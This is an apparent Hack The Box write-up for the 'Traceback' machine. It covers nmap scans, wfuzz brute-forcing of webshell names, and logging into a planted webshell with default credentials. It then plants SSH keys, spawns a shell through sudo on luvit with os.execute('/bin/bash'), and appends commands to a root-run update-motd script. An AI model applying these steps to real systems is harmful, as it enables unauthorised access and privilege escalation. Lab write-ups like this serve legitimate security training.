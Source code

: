 # **TRACEBACK HTB**

Initial nmap scan reveals the following: 

```
sudo nmap -sS -sV -sC 10.10.10.181 > rec_ini
```
![](Pictures/initial_scan.png)

So, there is a ssh and an open port 80 (http). Let's try the web server, while I run a complete scan in the background:

```
sudo nmap -p- -T5 10.10.10.181 > all_ports
```
The following is the webpage with some html code: 

![](Pictures/the_web_page.png)

```
<!DOCTYPE html>
<html>
<head>
	<title>Help us</title>
	<style type="text/css">
		@-webkit-keyframes blinking {
			0%	 { background-color: #fff; }
			49% { background-color: #fff; }
			50% { background-color: #000; }
			99% { background-color: #000; }
			100% { background-color: #fff; }
		}
		@-moz-keyframes blinking {
			0%	 { background-color: #fff; }
			49% { background-color: #fff; }
			50% { background-color: #000; }
			99% { background-color: #000; }
			100% { background-color: #fff; }
		}
		@keyframes blinking {
			0%	 { background-color: #fff; }
			49% { background-color: #fff; }
			50% { background-color: #000; }
			99% { background-color: #000; }
			100% { background-color: #fff; }
		}
		body {
			-webkit-animation: blinking 12.5s infinite;
			-moz-animation: blinking 12.5s infinite;
			animation: blinking 12.5s infinite;
			color: red;
		}
		
	</style>
</head>
<body>
	<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
</body>
</html>
```
Let's wait for the complete port scan, because there seems to be some kind of webshell from the comment. 
The all ports scan doesn't show anything.

![](Pictures/all_ports.png)

However, when I googled the comment written there, for some of the best webshells that you might need, I found a repository by the author of the Box. So I looked into the repository and found number of webshells.

![](Pictures/web_shells_by_the_author.png)

I cloned the repository and filtered out only the names of the php webshells into a file.

```
ls -l | grep php > shell_names.txt
cat shell_names.txt | awk '{print $9}' > t
mv t shell_names.txt
```
Now directory brute force the website :

```
$wfuzz -c -z file,$(pwd)/shell_names.txt  --hc 404,403 http://10.10.10.181/FUZZ
```

![](Pictures/result_of_shell_search.png)

**smevk.php** is found. The username and password for the webshell is admin:admin and we get into it. (Can be found in the source code of the webshell).

![](Pictures/web_shell_interface.png)

Since, we are logged in as the user webadmin, we can go to the webadmin home page and look into it. Since, the .ssh direfctory is writeable I can create my own ssh keys and upload them via the webshell. I generated ssh keys and dropped the public keys in the .ssh folder as authorized_keys. Then I was able to login as webadmin.

![](Pictures/webadmins_folder.png)

After checking the file note.txt and node.lua I found the following:

```
webadmin@traceback:~$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:~$ cat node.lua 
os.execute('/bin/bash')
webadmin@traceback:~$ 
```

Then I looked at the permission: 

```
sudo -l
```
![](Pictures/permissions.png)

It seemed that I can run the luvit binary as sysadmin without password. After searching for it I found out that it is a CLI tool that can be used as a scripting platform just like node. It is used for lua scripts and I know lua pretty well ;)

So I ran the node.lua using luvit as sysadmin 

```
sudo -u sysadmin /home/sysadmin/luvit node.lua
```

![](Pictures/got_user_shell.png)

So I got the user shell for sysadmin. I went to sysadmin directory and got the user.txt

![](Pictures/user.png)


## FINDING THE ROOT

After running pspy on the server, I found out that a process is running as with the UID-0. It is the 00-header: 

![](Pictures/result_of_pspy.png)

It runs the update-motd. It basically creates a cron jon which in turn runs the /usr/sbin/update-motd every 10 minutes.

I noticed that the message printed out during ssh as webadmin, was written in the 00-header in /etc/update-motd.d/00-header. Therefore, it is executed while doing ssh into the server. Also it is writable by the user. 

![](Pictures/message_while_ssh.png)

There is no vim in the server and permission for nano is also denied. I echoed the command in the file. Although I was able to write to the file, at first I wasn't able to get anything. But when I quickly tried writing and ssh-ing into the server, I got the output as root (most probably the file was written by a cronjob)

```
echo id >> 00-header
```

![](Pictures/getting_command_execution_as_root.png)

```
echo "cat /root/root.txt" >> 00-header
```

![](Pictures/root.png)

So, that's how I got the root flag. 